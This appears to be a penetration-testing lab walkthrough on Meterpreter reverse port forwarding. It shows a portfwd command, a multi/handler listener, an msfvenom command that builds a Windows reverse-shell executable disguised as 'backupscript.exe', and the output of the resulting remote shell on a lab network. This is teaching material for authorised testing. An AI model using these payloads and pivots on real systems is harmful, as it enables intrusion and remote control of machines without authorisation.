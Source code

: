 ## Meterpreter Reverse Port Forwarding
Similar to local port forwards, Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host. We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port (`-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.

```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

#### Configuring & Starting multi/handler
```shell
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

#### Generating the Windows Payload
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

```shell
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```
